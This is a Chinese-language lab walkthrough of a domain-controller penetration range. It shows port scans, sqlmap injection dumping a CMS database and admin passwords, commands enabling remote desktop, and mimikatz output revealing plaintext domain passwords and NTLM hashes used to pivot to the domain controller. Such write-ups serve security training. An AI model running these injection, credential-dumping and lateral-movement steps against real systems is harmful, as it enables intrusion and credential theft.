

# 铁三域控

靶机地址:http://cloud-pentest.cn/index.html#

网络拓扑图:


工具准备:

- fscan
- gobuster
- sqlmap 
- mimikatz

# 渗透流程

fscan开扫:


## 172.25.0.141

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap --min-rate 10000 -p- -Pn 172.25.0.141
...
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
...
```

由fscan扫描结果可知该靶机存在ms17-010漏洞，尝试进行利用，发现无法利用永恒之蓝 ，因为msf处的ms17-010漏洞只能支持64位的，但是这是32位的win7。

我们可以参考这篇文章https://blog.csdn.net/qq_41617034/article/details/91051614，利用MS17-010渗透win7（32位），但是还是失败了，本地复现成功了，多半是环境的问题。

## 172.25.0.123

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap --min-rate 10000 -p- -Pn 172.25.0.123 
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```


,,,织梦CMS。

### gobuster扫描敏感目录

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x zip,rar,txt,php -u http://172.25.0.123/  
...
/images               (Status: 301) [Size: 235] [--> http://172.25.0.123/images/]                                             
/index                (Status: 200) [Size: 26190]
/index.php            (Status: 200) [Size: 26190]
/uploads              (Status: 301) [Size: 236] [--> http://172.25.0.123/uploads/]                                            
/data                 (Status: 301) [Size: 233] [--> http://172.25.0.123/data/]                                               
/a                    (Status: 301) [Size: 230] [--> http://172.25.0.123/a/]                                                  
/member               (Status: 301) [Size: 235] [--> http://172.25.0.123/member/]                                             
/special              (Status: 301) [Size: 236] [--> http://172.25.0.123/special/]                                            
/m                    (Status: 301) [Size: 230] [--> http://172.25.0.123/m/]                                                  
/tags.php             (Status: 200) [Size: 6232]
/tags                 (Status: 200) [Size: 6232]
/manual               (Status: 301) [Size: 235] [--> http://172.25.0.123/manual/]                                             
/plus                 (Status: 301) [Size: 233] [--> http://172.25.0.123/plus/]                                               
/include              (Status: 301) [Size: 236] [--> http://172.25.0.123/include/]                                            
/favicon              (Status: 200) [Size: 1150]
/robots               (Status: 200) [Size: 505]
/robots.txt           (Status: 200) [Size: 505]
/sql                  (Status: 301) [Size: 232] [--> http://172.25.0.123/sql/]    
...
```

/sql感觉可以利用


### sql注入漏洞

扫出来四个数据库

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# sqlmap -u http://172.25.0.123/sql/?id=1 --dbs

[15:00:56] [INFO] fetching database names
available databases [4]:
[*] dedecmsv57utf8sp1
[*] information_schema
[*] mysql
[*] performance_schema

```

-D指定数据库，--tables爆表

```
                                                             
┌──(root㉿kali)-[/home/tom/桌面]
└─# sqlmap -u http://172.25.0.123/sql/?id=2 -D dedecmsv57utf8sp1 --tables 

Database: dedecmsv57utf8sp1
[89 tables]
+-------------------------+
| flag                    |
| topsec_addonarticle     |
| topsec_addonimages      |
| topsec_addoninfos       |
| topsec_addonshop        |
| topsec_addonsoft        |
| topsec_addonspec        |
| topsec_admin            |
| topsec_admintype        |
| topsec_advancedsearch   |
| topsec_arcatt           |
| topsec_arccache         |
| topsec_archives         |
| topsec_arcmulti         |
| topsec_arcrank          |
| topsec_arctiny          |
| topsec_arctype          |
| topsec_area             |
| topsec_channeltype      |
| topsec_co_htmls         |
| topsec_co_mediaurls     |
| topsec_co_note          |
| topsec_co_onepage       |
| topsec_co_urls          |
| topsec_diyforms         |
| topsec_dl_log           |
| topsec_downloads        |
| topsec_erradd           |
| topsec_feedback         |
| topsec_flink            |
| topsec_flinktype        |
| topsec_freelist         |
| topsec_homepageset      |
| topsec_keywords         |
| topsec_log              |
| topsec_member           |
| topsec_member_company   |
| topsec_member_feed      |
| topsec_member_flink     |
| topsec_member_friends   |
| topsec_member_group     |
| topsec_member_guestbook |
| topsec_member_model     |
| topsec_member_msg       |
| topsec_member_operation |
| topsec_member_person    |
| topsec_member_pms       |
| topsec_member_snsmsg    |
| topsec_member_space     |
| topsec_member_stow      |
| topsec_member_stowtype  |
| topsec_member_tj        |
| topsec_member_type      |
| topsec_member_vhistory  |
| topsec_moneycard_record |
| topsec_moneycard_type   |
| topsec_mtypes           |
| topsec_multiserv_config |
| topsec_myad             |
| topsec_myadtype         |
| topsec_mytag            |
| topsec_payment          |
| topsec_plus             |
| topsec_plus_seoinfo     |
| topsec_purview          |
| topsec_pwd_tmp          |
| topsec_ratings          |
| topsec_scores           |
| topsec_search_cache     |
| topsec_search_keywords  |
| topsec_sgpage           |
| topsec_shops_delivery   |
| topsec_shops_orders     |
| topsec_shops_products   |
| topsec_shops_userinfo   |
| topsec_softconfig       |
| topsec_sphinx           |
| topsec_stepselect       |
| topsec_sys_enum         |
| topsec_sys_module       |
| topsec_sys_set          |
| topsec_sys_task         |
| topsec_sysconfig        |
| topsec_tagindex         |
| topsec_taglist          |
| topsec_uploads          |
| topsec_verifies         |
| topsec_vote             |
| topsec_vote_member      |
+-------------------------+

```

T指定flag表，--dump爆出所有数据

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# sqlmap -u http://172.25.0.123/sql/?id=2 -D dedecmsv57utf8sp1 -T flag  --dump

Database: dedecmsv57utf8sp1
Table: flag
[1 entry]
+----+-----------------------------------------+
| id | flag                                    |
+----+-----------------------------------------+
| 1  | flag2{912ec803b2ce49e4a541068d495ab570} |
+----+-----------------------------------------+
```

```
admin         | 7cd6ef195a0f7622a9c5 ┌──(root㉿kali)-[/home/tom/桌面]
└─# sqlmap -u http://172.25.0.123/sql/?id=2 -D dedecmsv57utf8sp1 -T topsec_admin  --dump

Database: dedecmsv57utf8sp1
Table: topsec_admin
[2 entries]
+----+---------+---------------+----------------------+---------+---------+---------------+--------------+----------+------------+
| id | typeid  | userid        | pwd                  | email   | tname   | uname         | loginip      | usertype | logintime  |
+----+---------+---------------+----------------------+---------+---------+---------------+--------------+----------+------------+
| 1  | <blank> | admin         | 7cd6ef195a0f7622a9c5 | <blank> | <blank> | admin         | 192.168.50.1 | 10       | 1487739514 |
| 2  | NULL    | administrator | topsec.123           | <blank> | <blank> | administrator | <blank>      | 10       | 0          |
+----+---------+---------------+----------------------+---------+---------+---------------+--------------+----------+------------+

```

可以找到这个cms的后台管理登录地址/dede/login.php


topsec_admin表下存在后台账号密码，admin  | 7cd6ef195a0f7622a9c5   ，成功爆破出md5值。


进行登录，在管理页面成功拿下flag1


### 3389远程登录141靶机

> windows打开3389远程连接的命令有两种办法，任选其一：
> 
> wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
> 
> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

利用爆破出的administrator | topsec.123   尝试远程登录141靶机。

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# rdesktop 172.25.0.141
```


ipconfig 看到新的域


发现DNS服务器和网关都是192.168.60.100，那域控的ip应该就是这个了。


可以发现该靶机是32位的。


注意：上传fscan32.exe时建议使用windows连接VPN，之后复制上传。

## 192.168.60.100

### mimikatz

192.168.60.100就是域控的ip，那我们要如何拿下域控呢？一般来讲我会先用mimikatz把当前这台机子的密码哈希凭据什么的先给整下来，看看能不能直接靠这些信息登录域控，如果不行在去想别的办法，或者搭建个隧道利用fscan扫出来的这个ms17-010漏洞拿下域控。
思路明确，我本来还想着这个mimikatz要我自己上传，结果发现桌面上的win32文件夹里自带了mimikatz，好家伙这应该是题目给的提示吧

```

  .#####.   mimikatz 2.1 (x86) built on Nov 26 2016 02:28:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug    //用于提升至DebugPrivilege权限
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords full       //用于导出用户凭据

Authentication Id : 0 ; 550594 (00000000:000866c2)
Session           : RemoteInteractive from 3
User Name         : administrator
Domain            : TEST
Logon Server      : WIN-JDS94C5QEQQ
Logon Time        : 2023/4/16 21:15:25
SID               : S-1-5-21-3162112726-21061240-2166559086-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : TEST
         * LM       : 3264d00d3f2d8530fb62879e33fbb745
         * NTLM     : 9d5161ebc56e27949f872f96cdb95490
         * SHA1     : 76403c35658baf605b4d10ee4d015d1fcaef59da
        tspkg :
         * Username : Administrator
         * Domain   : TEST
         * Password : TopSec_2017
        wdigest :
         * Username : Administrator
         * Domain   : TEST
         * Password : TopSec_2017
        kerberos :
         * Username : administrator
         * Domain   : TEST.COM
         * Password : TopSec_2017
        ssp :
        credman :

Authentication Id : 0 ; 365921 (00000000:00059561)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : TOPSEC
Logon Server      : TOPSEC
Logon Time        : 2023/4/16 21:05:36
SID               : S-1-5-21-3220505158-1983987487-2792417607-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : TOPSEC
         * LM       : 7dafe6af0d82ef56ccf9155e3e7db453
         * NTLM     : f013ff76154a124f8cfc32f654582420
         * SHA1     : 8f2e87185cbe8a3e3aed2f409f5017d9e12036c1
        tspkg :
         * Username : Administrator
         * Domain   : TOPSEC
         * Password : topsec.123
        wdigest :
         * Username : Administrator
         * Domain   : TOPSEC
         * Password : topsec.123
        kerberos :
         * Username : Administrator
         * Domain   : TOPSEC
         * Password : topsec.123
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2023/4/16 21:04:33
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : TOPSEC$
Domain            : TEST
Logon Server      : (null)
Logon Time        : 2023/4/16 21:04:33
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : TOPSEC$
         * Domain   : TEST
         * NTLM     : ec572542a28c795e4e43654a0f307db6
         * SHA1     : ae24e2864124ad6dcb67e04ea742fc89c5fd6217
        tspkg :
        wdigest :
         * Username : TOPSEC$
         * Domain   : TEST
         * Password : atl$<'q+Vn_?i qEGh/q^k$NIE1C]@&WCmHcYjMH/t9#6Sx'o.hb^r:w]u
quI^UI'_U#7Z)FZN8:mGy_X&HK8^7W*[Mi]rs$-/67&/t9LXRfp!1usS4+^I&
        kerberos :
         * Username : topsec$
         * Domain   : TEST.COM
         * Password : atl$<'q+Vn_?i qEGh/q^k$NIE1C]@&WCmHcYjMH/t9#6Sx'o.hb^r:w]u
quI^UI'_U#7Z)FZN8:mGy_X&HK8^7W*[Mi]rs$-/67&/t9LXRfp!1usS4+^I&
        ssp :
        credman :

Authentication Id : 0 ; 50816 (00000000:0000c680)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2023/4/16 21:04:32
SID               :
        msv :
         [00000003] Primary
         * Username : TOPSEC$
         * Domain   : TEST
         * NTLM     : ec572542a28c795e4e43654a0f307db6
         * SHA1     : ae24e2864124ad6dcb67e04ea742fc89c5fd6217
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : TOPSEC$
Domain            : TEST
Logon Server      : (null)
Logon Time        : 2023/4/16 21:04:32
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : TOPSEC$
         * Domain   : TEST
         * Password : atl$<'q+Vn_?i qEGh/q^k$NIE1C]@&WCmHcYjMH/t9#6Sx'o.hb^r:w]u
quI^UI'_U#7Z)FZN8:mGy_X&HK8^7W*[Mi]rs$-/67&/t9LXRfp!1usS4+^I&
        kerberos :
         * Username : topsec$
         * Domain   : TEST.COM
         * Password : atl$<'q+Vn_?i qEGh/q^k$NIE1C]@&WCmHcYjMH/t9#6Sx'o.hb^r:w]u
quI^UI'_U#7Z)FZN8:mGy_X&HK8^7W*[Mi]rs$-/67&/t9LXRfp!1usS4+^I&
        ssp :
        credman :

```

找到了一个test域的administrator用户和密码，直接远程桌面里套一层远程桌面连接域控。

